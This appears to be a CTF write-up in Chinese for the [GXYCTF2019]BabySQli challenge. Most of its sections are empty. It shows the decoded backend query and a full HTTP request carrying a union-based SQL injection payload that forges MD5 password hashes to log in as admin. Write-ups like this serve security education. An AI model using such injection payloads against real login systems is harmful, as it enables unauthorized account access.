



# [GXYCTF2019]BabySQli

## 题目描述
---
```

```

## 题目来源
---


## 主要知识点
---
SQL注入

## 题目分值
---


## 部署方式
---


## 解题思路
---



MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5



解码后为`select * from user where username = '$name'`

首先判断`order by`

```
POST /search.php HTTP/1.1
Host: 48819129-55ab-487e-a589-36baaad868d8.node3.buuoj.cn
Content-Length: 112
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://48819129-55ab-487e-a589-36baaad868d8.node3.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://48819129-55ab-487e-a589-36baaad868d8.node3.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17801970b9036a-07ec5d7cc7482b-53e356a-1fa400-17801970b91251
Connection: close

name=admin2' union select "c4ca4238a0b923820dcc509a6f75849b","admin","eccbc87e4b5ce2fe28308fd9f2a7baf3" -- &pw=3
```



## 参考
---
